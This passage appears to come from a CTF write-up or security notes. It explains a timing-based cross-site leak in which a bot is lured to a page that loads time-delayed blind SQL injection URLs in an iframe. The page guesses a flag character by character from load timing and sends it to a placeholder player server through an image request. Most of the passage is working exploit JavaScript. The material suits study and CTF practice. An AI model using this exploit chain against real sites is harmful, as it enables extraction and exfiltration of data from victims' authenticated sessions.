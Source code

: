 ```
This time you can make the victim load a page in your control via XSS with a <iframe. This time you are going to make the victim access the page from where you want to extract information (CSRF). You cannot access the content of the page, but if somehow you can control the time the page needs to load you can extract the information you need.

This time a flag is going to be extracted, whenever a char is correctly guessed via SQLi the response takes more time due to the sleep function. Then, you will be able to extract the flag:

```


<iframe name=f id=g></iframe> // The bot will load an URL with the payload
<script>
let host = "http://x-oracle-v1.nn9ed.ka0labs.org";
function gen(x) {
    x = escape(x.replace(/_/g, '\\_'));
    return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag%20like%20'${x}%25'and%201=sleep(0.1)%23`; 
}
 
function gen2(x) {
    x = escape(x);
    return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag='${x}'and%201=sleep(0.1)%23`;
}
 
async function query(word, end=false) { 
    let h = performance.now();
    f.location = (end ? gen2(word) : gen(word));
    await new Promise(r => {
        g.onload = r; 
    });
    let diff = performance.now() - h;
    return diff > 300;
}
 
let alphabet = '_abcdefghijklmnopqrstuvwxyz0123456789'.split('');
let postfix = '}'
 
async function run() {
    let prefix = 'nn9ed{';
    while (true) {
        let i = 0;
        for (i;i<alphabet.length;i++) {
            let c = alphabet[i];
            let t =  await query(prefix+c); // Check what chars returns TRUE or FALSE
            console.log(prefix, c, t);
            if (t) {
                console.log('FOUND!')
                prefix += c;
                break;
            }
        }
        if (i==alphabet.length) {
            console.log('missing chars');
            break;
        }
        let t = await query(prefix+'}', true);
        if (t) {
            prefix += '}';
            break;
        }
    }
    new Image().src = 'http://PLAYER_SERVER/?' + prefix; //Exfiltrate the flag
    console.log(prefix);
}